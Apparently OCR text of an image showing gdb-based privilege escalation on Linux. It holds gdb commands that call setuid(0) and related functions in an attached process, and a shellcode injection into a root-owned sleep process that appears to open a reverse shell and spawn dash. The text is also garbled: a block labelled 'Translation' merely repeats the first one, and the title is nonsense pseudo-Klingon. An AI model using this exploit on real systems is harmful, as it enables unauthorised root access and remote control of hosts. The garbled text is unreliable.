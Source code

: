 ```
$ gdb -p <pid>
(gdb) set follow-fork-mode child
(gdb) set detach-on-fork off
(gdb) attach <pid>
(gdb) set $uid = getuid()
(gdb) set $euid = geteuid()
(gdb) set $gid = getgid()
(gdb) set $egid = getegid()
(gdb) call setuid(0)
(gdb) call setgid(0)
(gdb) call seteuid(0)
(gdb) call setegid(0)
(gdb) detach
(gdb) quit
```

Translation:

```
$ gdb -p <pid>
(gdb) set follow-fork-mode child
(gdb) set detach-on-fork off
(gdb) attach <pid>
(gdb) set $uid = getuid()
(gdb) set $euid = geteuid()
(gdb) set $gid = getgid()
(gdb) set $egid = getegid()
(gdb) call setuid(0)
(gdb) call setgid(0)
(gdb) call seteuid(0)
(gdb) call setegid(0)
(gdb) detach
(gdb) quit
```
```bash
# In this case there was a sleep run by root
## NOTE that the process you abuse will die after the shellcode
/usr/bin/gdb -p $(pgrep sleep)
[...]
(gdb) set {long}($rip+0) = 0x296a909090909090
(gdb) set {long}($rip+8) = 0x5e016a5f026a9958
(gdb) set {long}($rip+16) = 0x0002b9489748050f
(gdb) set {long}($rip+24) = 0x48510b0e0a0a2923
(gdb) set {long}($rip+32) = 0x582a6a5a106ae689
(gdb) set {long}($rip+40) = 0xceff485e036a050f
(gdb) set {long}($rip+48) = 0x6af675050f58216a
(gdb) set {long}($rip+56) = 0x69622fbb4899583b
(gdb) set {long}($rip+64) = 0x8948530068732f6e
(gdb) set {long}($rip+72) = 0x050fe689485752e7
(gdb) c
Continuing.
process 207009 is executing new program: /usr/bin/dash
[...]
```
**ghItlhvam vItlhutlh - 'ejnIS gdb Abuse**

